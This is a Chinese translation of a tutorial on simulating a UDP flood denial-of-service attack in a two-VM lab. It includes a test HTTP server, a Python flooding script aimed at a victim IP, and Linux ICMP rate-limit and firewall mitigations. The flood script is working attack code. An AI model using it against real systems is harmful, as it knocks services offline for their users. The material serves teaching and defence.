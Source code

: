 > * 原文地址：[How to simulate a UDP Flood DoS attack on your computer](https://levelup.gitconnected.com/how-to-simulate-a-udp-flood-dos-attack-on-your-computer-863b40c44f3f)
> * 原文作者：[RiccardoM](https://medium.com/@riccardom)
> * 译文出自：[掘金翻译计划](https://github.com/xitu/gold-miner)
> * 本文永久链接：[https://github.com/xitu/gold-miner/blob/master/article/2020/how-to-simulate-a-udp-flood-dos-attack-on-your-computer.md](https://github.com/xitu/gold-miner/blob/master/article/2020/how-to-simulate-a-udp-flood-dos-attack-on-your-computer.md)
> * 译者：[chaingangway](https://github.com/chaingangway)
> * 校对者：[shixi-li](https://github.com/shixi-li)、[司徒公子](https://github.com/todaycoder001)

# 如何在自己的计算机上模拟 UDP 洪水 DoS 攻击

![](https://cdn-images-1.medium.com/max/12048/0*5IXgILaawtazZ2Tx)

**免责声明：以下教程仅用于教学目的。您只能对自己的计算机执行攻击**

UDP 洪水攻击能让服务器拒绝服务，攻击者向目标服务器发送大量 **UDP**（用户数据报文协议）数据包，以压垮服务器处理和响应传入流量的能力。

攻击者将数据包发送到服务器 IP 地址的随机端口。当服务器收到数据包时：

1. 检查是否有程序监听该端口。
2. 如果发现没有程序监听；大部分情况都是这样，因为目标端口是随机的。
3. 返回 **ICMP Destination Unreachable** 的数据包。

攻击者的 IP 地址可以伪装，以防止 ICMP 响应包的身份识别和自身资源饱和。

## 初始化

为了模拟这种攻击，您需要两台虚拟机。网卡必须配置为在子网中并且有自己的地址。我使用的是 VirtualBox 中非常轻量级的两个 BunsenLabs 实例。它们以桥接模式配置网卡。下面是对每个虚拟机的要求：

* **攻击者**的虚拟机需要安装 python 3
* **目标服务器**需要安装 3.7 及以上版本的 python

#### 服务器端配置

我们将运行一个简单的 HTTP 服务器，以验证服务器受到攻击时性能是否下降。下面是用 Python 编写的服务器端程序。

```py
import sys
import time
import random
from http.server import ThreadingHTTPServer, BaseHTTPRequestHandler

class DefaultHTTPHandler(BaseHTTPRequestHandler):

  def do_GET(self):
    self.send_response(200)
    self.send_header('Content-type', 'text/plain')
    self.send_header("Cache-Control", "no-cache")
    self.end_headers()

    n = random.randint(1e7,1e8)
    self.wfile.write((("{} is " + ("" if is_prime(n) else "not ") + "a prime number").format(n)).encode("utf-8"))

def base_http_server_start(address="0.0.0.0", port=80):
    handler = DefaultHTTPHandler
    address = (address, port)
    server = ThreadingHTTPServer(address, handler, bind_and_activate=False)
    server.server_bind()
    server.server_activate()
    server.serve_forever()

def is_prime(num):
    res = True
    for i in range(2, num - 1):
        if num % i == 0:
            res = False
    return res

if __name__ == '__main__':
    print("Starting HTTP server on port 80")
    base_http_server_start()
```

通过地址 localhost: 80 访问服务器。在这个服务器程序中，我们生成了一个非常大的随机数，并故意用非常低效的方法检验它是否为质数。通过这种机制，我们在重新加载浏览器页面时就能大致估计服务器的响应时间。响应时间因硬件的计算能力而异，平均值在 5-10 秒左右。

#### 攻击脚本

我们用下面的 Python 脚本执行攻击，这里用到了 socket。

```py
import time
import socket
import random
import sys

victim_ip = 192.168.1.10
duration = 60 # in seconds

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

msg = bytes(random.getrandbits(10))
timeout = time.time() + duration
sent_packets = 0

while time.time() < timeout:
  victim_port = random.randint(1025, 65356)
  sock.sendto(msg, (victim_ip, victim_port))
  sent_packets += 1
```

在脚本中，我们可以指定目标的 IP 地址和攻击的持续时间。如上所述，每次发送数据包时，我们都会选择一个不同的端口。

## 攻击

要执行攻击，我们首先需要运行服务器并使用上述方法检查其性能。接下来，在攻击者的虚拟机中，运行执行攻击的脚本。当服务器受到攻击时，由于其忙于处理传入流量并返回 ICMP Destination Unreachable 数据包，我们可以看到其 CPU 使用率在增加。

然后，我们来重新加载浏览器页面并计算服务器的响应时间。很显然看到服务器性能已极具下降。响应时间至少应为正常情况下的两倍。

## 缓解

#### Linux 设置

想缓解 UDP 洪水攻击很难。但是我们可以更改操作系统每秒发送的 ICMP 数据包的数量。我们在 Linux 中使用这两个命令，例如：

```bash
sudo sysctl -w net.ipv4.icmp_ratelimit=0
sudo sysctl -w net.ipv4.icmp_msgs_per_sec=1000
```

第一条命令让 ICMP 响应的速率仅能通过第二条命令的参数来设置。因此，在这种情况下，使用第二个命令，我们就能设置 ICMP 消息的速率为每秒 1000 条 。

我们可以很容易地验证这一点，方法是对服务器持续攻击 10 秒钟，并在服务器上使用 Wireshark 来拦截响应的 ICMP 数据包。我们可以看到在 10s 内大约发送了 10000 个 ICMP 数据包，这是对的，因为，我们将速率设置为每秒 1000 个数据包。

![10.000 packets captured with Wireshark during a 10 seconds attack](https://cdn-images-1.medium.com/max/2000/1*Kb3xNdtJxxD0L87W9i3IJg.png)

我们可以尝试更改此参数，并使用 Wireshark 检查 10 秒钟内发送的数据包数量如何变化。例如，设置速率为每秒 1 条消息，我们可以捕获大约 10 条消息。

```bash
sudo sysctl -w net.ipv4.icmp_msgs_per_sec=1
```

![10 packets captured with Wireshark during a 10 seconds attack](https://cdn-images-1.medium.com/max/2000/1*3MVskJJFtm4wKB4kT5GiYg.png)

为这些参数设置最佳值是个难点。因为最佳值取决于我们的硬件，应用程序以及与服务器交互的平均流量。如果我们减少每秒发送的响应数，虽然能减少服务器的负载，但这只是丢弃了更多传入的请求，而没有发送 ICMP 响应包。通过减少参数的值，我们可能会拒绝合法的请求，而没有处理真实用户的流量，这会有更大的风险。因此，我们要有一种折衷的办法。

#### 防火墙

我们还可以使用防火墙来抵御这种攻击。防火墙可以在 UDP 数据包到达服务器之前将其阻止。这样就不会耗费服务器资源。但是，防火墙本身也容易受到此类攻击：它们必须处理传入的流量，并且可能在攻击过程中成为瓶颈。此外，如果我们使用的是有状态的防火墙，虽然可以轻松地阻止来自同一 IP 地址的攻击，但是如果攻击者使用了 IP 欺骗，防火墙的状态表可能会塞满，可用内存将被耗尽。因此，防火墙也不是终极解决方案。

## 结论

在本文中，我们通过几个简单的步骤模拟攻击，来帮助我们更好地了解其工作原理。您还可以更详细地研究应对攻击的缓解措施，尝试使用不同的参数来配置服务器。这个过程也很有趣，因为这是一种简单而强大的攻击：如上所述，我们很难采取有效的对策来阻止它。如果您对更复杂的基于 UDP 的攻击感兴趣，请查看[这个](https://levelup.gitconnected.com/how-to-simulate-a-ntp-amplification-dos-attack-on-your-computer-72b3c6f60eb7)故事，在此我解释了如何利用 NTP 服务器来扩大流量，让受攻击的服务器带宽饱和。

> 如果发现译文存在错误或其他需要改进的地方，欢迎到 [掘金翻译计划](https://github.com/xitu/gold-miner) 对译文进行修改并 PR，也可获得相应奖励积分。文章开头的 **本文永久链接** 即为本文在 GitHub 上的 MarkDown 链接。

---

> [掘金翻译计划](https://github.com/xitu/gold-miner) 是一个翻译优质互联网技术文章的社区，文章来源为 [掘金](https://juejin.im) 上的英文分享文章。内容覆盖 [Android](https://github.com/xitu/gold-miner#android)、[iOS](https://github.com/xitu/gold-miner#ios)、[前端](https://github.com/xitu/gold-miner#前端)、[后端](https://github.com/xitu/gold-miner#后端)、[区块链](https://github.com/xitu/gold-miner#区块链)、[产品](https://github.com/xitu/gold-miner#产品)、[设计](https://github.com/xitu/gold-miner#设计)、[人工智能](https://github.com/xitu/gold-miner#人工智能)等领域，想要查看更多优质译文请持续关注 [掘金翻译计划](https://github.com/xitu/gold-miner)、[官方微博](http://weibo.com/juejinfanyi)、[知乎专栏](https://zhuanlan.zhihu.com/juejinfanyi)。
